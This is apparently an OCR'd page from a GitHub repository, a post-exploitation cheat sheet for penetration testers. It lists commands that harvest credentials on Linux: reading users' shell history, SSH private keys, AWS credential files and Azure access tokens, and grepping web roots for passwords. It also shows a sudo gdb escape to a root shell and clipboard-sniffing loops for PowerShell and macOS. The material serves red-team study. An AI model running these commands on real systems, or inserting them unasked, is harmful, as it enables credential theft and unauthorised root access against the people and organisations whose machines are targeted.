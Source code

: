 ### Linux Password Harvesting

| Target | Command |
| --- | --- |
| Process list as arguments to running programs | ps -efw |
| Users enter password in login prompt by mistake | last -f /var/log/btmp |
| Users enter password in command line | cat /home/*/.*history |
| Saved passwords in web files | grep -iR password /var/www |
| SSH keys | cat /home/\*/.ssh/id\* |
| History files of various types | cat /home/*/.mysql_history |
| AWS credentials | cat /home/*/.aws/credentials |
| Azure login token | cat /home/*/.azure/accessTokens.json |

### Sudo, indirect unintended access

```
azawadow@x33-p98543:~$ sudo -l
Matching Defaults entries for azawadow on x33-p98543:
env_reset, exempt_group=sudo, mail_badpass,
secure_path=/usr/local/sbin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User azawadow may run the following commands on x33-p98543:
(root) /usr/bin/gdb
azawadow@x33-p98543:~$ sudo gdb -q
(gdb) shell                               <---------------- azawadow can run gdb with root, and it can spawn a shell
root@x33-p98543:~# id
uid=0(root) gid=0(root) groups=0(root)
root@x33-p98543:~#
```

### Password Managers is solid but Clipboard is not

```
PS C:\> $x=""; while($true) { $y=get-clipboard -raw; if ($x -ne $y) { Write-Host $y; $x=$y } }
```

```
macos~ $ x=""; while true; do y=`pbpaste`; if [ "$x" != "$y" ] ; then echo $y; x=$y; fi; done
```

### Cloud Post-Exploit

####  AWS whoami

```
$ aws sts get-caller-identity
{
    "UserId": "AIDAQ3GCTAHP3NPIF7WKA",
    "Account": "058390151647",
    "Arn": "arn:aws:iam::058390151647:user/jmerckle"
}
```
